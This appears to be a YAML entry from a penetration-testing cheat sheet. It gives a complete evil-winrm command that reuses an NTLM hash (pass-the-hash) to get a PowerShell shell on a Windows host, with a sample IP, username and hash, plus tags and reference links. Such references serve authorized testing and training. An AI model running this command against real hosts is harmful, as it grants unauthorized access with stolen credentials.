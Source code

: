 ```yaml
---
description: Authenticate to a remote Windows host over WinRM using NTLM Pass-the-Hash and obtain an interactive PowerShell session.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  evil-winrm -i 10.10.10.1 -u john -H 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396

items:
  - Hash
  - Shell
  - PowerShell

services:
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation

references:
  - https://github.com/Hackplayers/evil-winrm
  - https://book.hacktricks.xyz/windows-hardening/evil-winrm
  - https://docs.microsoft.com/en-us/windows/win32/winrm/portal
---
```

